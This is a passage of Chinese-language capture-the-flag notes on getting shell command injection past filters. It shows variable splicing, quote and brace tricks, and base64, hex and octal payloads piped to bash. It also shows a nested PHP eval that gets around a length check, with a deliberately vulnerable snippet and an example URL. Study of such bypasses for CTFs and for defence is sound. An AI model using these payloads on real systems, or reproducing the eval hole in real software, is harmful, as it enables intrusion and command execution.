 - 变量
```
# 变量拼接
a=ca;b=t;c=./flag
$a$b $c

# 利用切割字符串拼凑
a="llxss";b=${a:0:1}${a:4:1};$b
```

- 特殊变量${9}，相当于空字符串
```
ca${9}t ./flag
```

- base64编码
```
echo "Y2F0IC4vZmxhZwo=" |base64 -d|bash
```

- 16进制
```
echo "0x636174202e2f666c6167" |xxd -r -p|bash
```

- 8进制
```
$(printf "\143\141\164\40\56\57\146\154\141\147")
```

- 使用双引号和单引号
```
ca"t" ./flag
ca't' ./flag
```

- 花括号
```
{cat,./flag}
```

- %0a(\\n)，%0d(\\r)，%09(\\t)等也可以绕过一些过滤

#### 3. 长度限制绕过

- 嵌套eval
```php
<?php
    $p = $_GET['p'];
	if(strlen($p) < 17){
        eval($p);
    }
?>   
```

可以嵌套一层eval，构造以下链接：

http://127.0.0.1/x.php?p=eval($_GET[x])&x=echo \`cat /flag\`;
